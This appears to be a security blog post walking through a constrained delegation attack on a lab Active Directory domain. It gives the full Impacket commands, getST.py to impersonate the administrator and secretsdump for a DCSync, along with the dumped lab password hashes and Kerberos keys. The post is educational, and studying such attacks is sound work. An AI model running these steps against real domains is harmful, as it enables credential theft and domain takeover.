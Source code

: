 ```yaml
---
layout: post
title: Constrained Delegation With Impacket
subtitle: How Impacket Can Help You Tackle Constrained Delegation Attacks
tags: [IMPACKET]
---
```


# What Is A Constrained Delegation Attack

Constrained delegation is a feature in Microsoft's Active Directory that allows a service/account, to impersonate another service/account when accessing network resources. This feature is designed to facilitate authentication and authorization between different services in a network it allows access to a resource on behalf of another account.

One common scenario where constrained delegation is used is with the CIFS protocol, which allows users to access shared network folders. In this case, the CIFS constrained delegation permission is granted to a service/account to allow it to impersonate other accounts when accessing network resources.

In a constrained delegation attack, an attacker could use a compromised account (user or servicer account) with the CIFS constrained delegation permission to impersonate other users and access resources. This could allow the attacker to extract sensitive information or perform malicious actions. A great example of this could be a DCSync attack. 

A DCSync attack is a technique used by attackers to simulate the behavior of a domain controller and request sensitive credential information from Active Directory, such as password hashes for user accounts, potentially leading to a full compromise of the Active Directory environment. This is possible because the account that has delegation rights for CIFS can access that resource as any user, because they have been designated to do so.

## Exploitation With Impacket
In my lab I set up the account "Frodo" to have the `msds allowed to delegate to` attribute set to `CIFS/dc.lotr.local` (this is a extreme example but demonstrates how the attack works). With the CIFS constrained delegation permission, Frodo can impersonate any user or computer account to access SMB network resources, including the administrator account. Frodo can use his CIFS constrained delegation permission to create a TGT as the administrator user, he could then use that TGT to access SMB resources as the administrator. The CIFS delegation allows Frodo to delegate access to SMB shares on the Domain Controller as anyone.

The TGT could be used with impackets dcsync.py script to perform a DCSync, simulating the behavior of a domain controller to retrieve password data via domain replication.

### Enumeration
Using `get-doaminuser` via [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) shows them `msds-allowedtodelegateto` property set. On a engagement this could also be discovered via `bloodhound` 

![img](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/get-domainuserFrodo.png)

### Exploitation With Impacket
Once the account was identified a service ticket was generated with `getST.py`, impersonating the domain admin
```
┌──(root㉿kali)-[~/impacket/examples]
└─# python3 getST.py -spn cifs/dc.lotr.local -impersonate administrator -dc-ip 10.10.1.46 'lotr/frodo:Press#123'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

The ticket was then exported in kali
```
┌──(root㉿kali)-[~/impacket/examples]
└─# export KRB5CCNAME=administrator.ccache
```

The DCSync was performed using the ticket. Impacket connected to the domain controller via smb to perform the DCSync.
```
┌──(root㉿kali)-[~/impacket/examples]
└─# impacket-secretsdump -k dc.lotr.local -just-dc
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1c3a1a94b9c4f29132f9fdf4c8d8cee1:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:81b08c3a5b56ccd94cdac3fb61ed7696:::
lotr.local\frodo:1104:aad3b435b51404eeaad3b435b51404ee:0f7421a8a3d0b0adcafa6862fd766818:::
lotr.local\gandalf:1105:aad3b435b51404eeaad3b435b51404ee:1c3a1a94b9c4f29132f9fdf4c8d8cee1:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:187d42125902934be349948ef0377245:::
WORKSTATION$:1103:aad3b435b51404eeaad3b435b51404ee:4d0cf71699ba922a8f581496a7aba220:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:2549b882ce260c7b86971c8536cded9dd94eaebab852daf62679b80d4acc06a8
Administrator:aes128-cts-hmac-sha1-96:191dbbfec51eb5e792e4822ee59c6c39
Administrator:des-cbc-md5:b93df4324c4af2cd
krbtgt:aes256-cts-hmac-sha1-96:bb06066912e51660c16ce4733411eab7bfed58ec36b680a39ef4c080a4777181
krbtgt:aes128-cts-hmac-sha1-96:163a2ff7c458a1aa2b27170ec7a5f78c
krbtgt:des-cbc-md5:baa26efe7af8a770
lotr.local\frodo:aes256-cts-hmac-sha1-96:9f13810cfedfd252ba538f0ffe2e0bd6a9ddde4bfc1160d63dc5dd8a45df4011
lotr.local\frodo:aes128-cts-hmac-sha1-96:4782e0c124787bd62e3ef6c53ad81b06
lotr.local\frodo:des-cbc-md5:98f2682c19b0c810
lotr.local\gandalf:aes256-cts-hmac-sha1-96:410394573a6e1f74c24b18dab0f5b61ac76d3d411dee1b77442b6757dce0b8ab
lotr.local\gandalf:aes128-cts-hmac-sha1-96:16c13c6548997aea9f2f4257d0c806e7
lotr.local\gandalf:des-cbc-md5:329129dfa726851c
DC$:aes256-cts-hmac-sha1-96:7aaa5e08414a6ed3ef47ec2ae59be71fe5f434e884719a412ff6228dfc36adaf
DC$:aes128-cts-hmac-sha1-96:f668b00d05e52115dbc1a965fa129779
DC$:des-cbc-md5:c873a1e6d6132af8
WORKSTATION$:aes256-cts-hmac-sha1-96:d9927a3bb33c9549283c9bb06bebe7853abe9f37103c5874424faa1c67feeb2d
WORKSTATION$:aes128-cts-hmac-sha1-96:228d4eef165a3bb937c1f0370ae7a45b
WORKSTATION$:des-cbc-md5:19a7e3e96ef20d6d
[*] Cleaning up...
```

## Summary
While constrained delegation is intended to be a secure feature, it can become a vulnerability if not properly configured. Attackers can exploit misconfigured delegation rights to gain access to valuable data or escalate their privileges within a network. Therefore, it's crucial to understand how constrained delegation works and to ensure it is properly configured to prevent attackers from abusing it.
